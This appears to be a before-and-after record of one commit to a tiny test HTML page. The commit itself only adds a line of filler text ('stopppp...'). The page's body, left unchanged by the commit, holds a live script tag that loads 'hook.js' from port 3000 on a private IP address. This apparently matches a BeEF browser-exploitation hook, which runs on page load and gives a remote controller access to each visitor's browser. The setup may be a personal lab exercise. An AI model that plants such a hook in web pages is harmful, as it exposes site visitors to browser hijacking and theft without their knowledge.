

Before and after one commit to tamim321321/test.io, a plain HTML site: page Untitled-1.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update Untitled-1.html

```diff
--- a/Untitled-1.html
+++ b/Untitled-1.html
@@ -6,6 +6,6 @@
 </head>
 <body>
     <script src="http://192.168.255.128:3000/hook.js"></script>
-
+stopppppppppppppppppppppppppppppppppp
 </body>
 </html>
```
